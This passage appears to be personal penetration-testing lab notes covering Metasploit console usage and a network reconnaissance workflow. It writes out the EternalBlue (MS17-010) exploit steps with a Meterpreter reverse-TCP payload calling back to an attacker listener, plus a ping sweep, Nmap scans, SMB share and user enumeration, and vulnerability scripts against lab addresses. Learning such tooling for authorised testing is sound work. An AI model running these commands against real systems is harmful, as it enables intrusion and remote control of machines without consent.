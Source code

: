 #### MSFConsole Usage Examples

MSFConsole is the main interface to the Metasploit Framework:

```bash
# Start MSFConsole
msfconsole

# Search for exploits
search type:exploit platform:windows ms17-010

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set options
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444

# Run the exploit
exploit
```

#### Sample Output

![[Pasted image 20250322224047.png]]
![[Pasted image 20250322224139.png]]
## Practical Examples

### Comprehensive Network Scan

This example demonstrates a comprehensive network reconnaissance workflow:

1. **Discover live hosts with Ping sweep**:

```bash
for ip in $(seq 1 254); do ping -c 1 192.168.74.$ip | grep "bytes from" | cut -d" " -f4 | cut -d":" -f1 & done
```

![[Pasted image 20250322224245.png]]

2. **Scan discovered hosts with Nmap**:

```bash
nmap -sV -O -A -T4 -oA network_scan 192.168.74.146
```

![[Pasted image 20250322224716.png]]

3. **Targeted service enumeration**:

```bash
nmap --script=smb-enum-shares,smb-enum-users 192.168.74.146
```

![[Pasted image 20250322224830.png]]

4. **Vulnerability scanning**:

```bash
nmap --script=vuln 192.168.74.146
```

![[Pasted image 20250322224941.png]]